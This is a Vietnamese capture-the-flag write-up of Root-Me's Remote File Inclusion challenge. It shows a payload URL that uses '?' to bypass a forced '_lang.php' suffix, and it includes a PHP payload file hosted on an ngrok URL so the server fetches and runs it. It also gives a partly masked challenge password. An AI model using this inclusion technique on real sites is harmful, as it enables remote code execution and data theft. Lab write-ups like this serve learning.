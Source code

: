 # [Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)

Website có thiết lập parameter `?lang` để đọc source từ lang.php:

<img src="./media/image1.png" style="width:6.5in;height:1.40556in" alt="Graphical user interface, text Description automatically generated" />

Fuzz vào URL thì ta biết được, server sẽ tự động concat thêm `_lang.php` vào cuối keyword ta gán vào `?lang`:

<img src="./media/image2.png" style="width:6.5in;height:1.08681in" alt="Graphical user interface, text, application Description automatically generated" />

Challenge này thử thách về RFI, ta thử chèn một website bất kỳ vào `?lang`:

<img src="./media/image3.png" style="width:6.5in;height:1.2in" alt="Graphical user interface, text Description automatically generated" />

Như ban nãy, server tự concat thêm `_lang.php`, ta sử dụng `?` để bypass phần concat với payload: `http://challenge01.root-me.org/web-serveur/ch13/?lang=https://github.com/nh4ttruong?`

<img src="./media/image4.png" style="width:6.5in;height:3.12083in" alt="A screenshot of a computer Description automatically generated" />

Bypass thành công, giờ thì ta sử dụng server để RFI qua challenge này. Set-up một file tên là **ntruong.txt** với content là payload PHP:

<img src="./media/image5.png" style="width:6.5in;height:0.67917in" />

Sử dụng ngrok server để public IP Address:

<img src="./media/image6.png" style="width:6.5in;height:3.32917in" alt="A screenshot of a computer Description automatically generated" />

URL để RFI: `https://f512-14-241-170-199.ap.ngrok.io/ntruong.txt`

<img src="./media/image7.png" style="width:6.5in;height:0.50694in" />

Giờ thì gắn vào `?lang` ta được:

<img src="./media/image8.png" style="width:6.5in;height:3.57051in" alt="Graphical user interface, application, Word Description automatically generated" />

```yaml
Password: R3m0t3_iS_r3aL1y_********************
```

<img src="./media/image9.png" style="width:6.5in;height:3.4359in" alt="A screenshot of a computer Description automatically generated" />

- Flag: "****************************"
